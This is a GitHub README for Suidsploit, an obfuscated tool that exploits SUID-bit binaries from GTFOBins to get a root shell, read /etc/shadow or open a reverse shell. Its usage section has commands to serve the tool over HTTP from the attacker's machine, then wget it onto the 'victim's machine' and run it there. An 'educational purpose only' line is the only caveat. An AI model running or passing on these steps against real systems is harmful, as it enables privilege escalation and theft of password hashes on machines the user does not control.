 # Suidsploit by Tizun & Silky

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Suidsploit is a Tool which can exploit 137 files from GTFO-Bins where the Suidbit is set.
On successful exploitation you can gain:

- Root Shell
- Output of /etc/shadow
- Reverse shell

![alt text](https://github.com/S1lkys/Suidsploit/blob/master/Suidsploit.png)

# Why is it obfuscated?

- Simplyfied because the creators don't want that their program is ripped

# Usage:
Open your favorite Terminal and run these commands.
On your machine:
- Download Suidsploit
- Start a HTTP-Server


$ git clone https://github.com/S1lkys/Suidsploit.git

$ cd Suidsploit/

$ python -m SimpleHTTPServer 80


On victims machine:
- download Suidsploit
- make it executable
- execute Suidsploit


$ wget http://192.168.xxx.xxx/Suidsploit.ob.sh

$ chmod +x Suidsploit.ob.sh

$ bash Suidsploit.ob.sh
### Todos

- Fix found Bugs
- Add new Tools

License
----
For educational Purpose only!
---
